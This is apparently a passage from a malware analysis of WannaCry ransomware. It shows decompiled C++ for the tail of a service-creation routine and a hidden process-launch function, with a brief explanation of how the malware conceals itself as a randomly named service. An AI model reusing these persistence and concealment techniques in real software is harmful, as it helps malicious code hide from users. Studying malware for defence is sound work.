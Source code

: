 ```C++
        CloseServiceHandle(hSCService);
        nRet = 1;
      }
      result = nRet;
    }
    CloseServiceHandle(hSCManager);
  }
  else
  {
    result = 0;
  }
  return result;
}
```

Wannacry uses the StartService function to start itself as a service with a random service name, which is the easiest way to conceal it. But if there is no permission to operate the service manager, or accidentally failed, Wannacry also has a regular startup method as an alternative.

```C++
int __cdecl StartProcess(LPSTR lpCommandLine, DWORD dwMilliseconds, LPDWORD lpExitCode)
{
  int result; 
  struct _STARTUPINFOA StartupInfo;
  struct _PROCESS_INFORMATION ProcessInformation; 

  StartupInfo.cb = 0x44;
  memset(&StartupInfo.lpReserved, 0, 0x40u);
  ProcessInformation.hProcess = 0;
  ProcessInformation.hThread = 0;
  ProcessInformation.dwProcessId = 0;
  ProcessInformation.dwThreadId = 0;
  StartupInfo.wShowWindow = 0;
  StartupInfo.dwFlags = 1;
  if ( CreateProcessA(0, lpCommandLine, 0, 0, 0, CREATE_NO_WINDOW, 0, 0, &StartupInfo, &ProcessInformation) )  <<=== Note here 
  {
    if ( dwMilliseconds )
    {
      if ( WaitForSingleObject(ProcessInformation.hProcess, dwMilliseconds) )
        TerminateProcess(ProcessInformation.hProcess, 0xFFFFFFFF);
      if ( lpExitCode )
        GetExitCodeProcess(ProcessInformation.hProcess, lpExitCode);
    }
    CloseHandle(ProcessInformation.hProcess);
    CloseHandle(ProcessInformation.hThread);
    result = 1;
  }
  else
  {
    result = 0;
  }
  return result;
}
```
